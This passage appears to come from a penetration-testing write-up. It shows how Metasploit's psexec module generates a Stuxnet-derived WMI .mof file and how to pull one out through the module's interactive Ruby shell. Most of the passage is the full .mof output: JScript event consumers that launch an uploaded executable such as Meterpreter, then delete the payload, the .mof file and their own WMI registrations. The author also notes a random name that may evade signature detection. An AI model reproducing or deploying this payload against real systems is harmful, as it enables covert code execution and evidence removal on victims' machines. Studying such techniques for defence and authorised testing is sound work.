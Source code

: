 It contains only a single function, *generate_mof*, and all it does is taking two file names as input, one for the output .mof file, and one for the executable to launch (usually Meterpreter). The name of the executable to launch isn't absolute because the module uploads it by default inside System32, just like Stuxnet did, so that the system could find the program by itself by looking into the entries from the %PATH% environment variable, which of course includes System32. 

These two strings taken as input by the function are replaced inside the template of a premade .mof source, reconstructed from the one used by Stuxnet. So basically the function does nothing but replacing strings and returning the resulting code. A random number is also generated to append to the definition of the MyClass instance, maybe for defeating simple signature based detection? To create our own functional .mof file to upload on the box we can either replace all the strings manually with our own, or we can enter Ruby's interactive mode to execute the function with arbitrary parameters and grab its output by passing the function to *puts*. First we must be able to access the function though so we have to tell Metasploit to use the psexec module:

```cpp
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > irb
[*] Starting IRB shell...
[*] You are in exploit/windows/smb/psexec

>> puts(generate_mof("baud.mof","dropzone.exe"))
#pragma namespace("\\\\.\\root\\cimv2")
class MyClass89
{
	[key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
	[key] string Name;
	[not_null] string ScriptingEngine;
	string ScriptFileName;
	[template] string ScriptText;
	uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
	Name  = "ActiveScriptEventConsumer";
	CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
	PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
	Provider = $P;
	ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
	Name = "ASEC";
	ScriptingEngine = "JScript";
	ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"dropzone.exe\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass89\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");} catch(err) {};";
	
};
Instance of ActiveScriptEventConsumer as $cons2
{
	Name = "qndASEC";
	ScriptingEngine = "JScript";
	ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\baud.mof\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"dropzone.exe\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";
```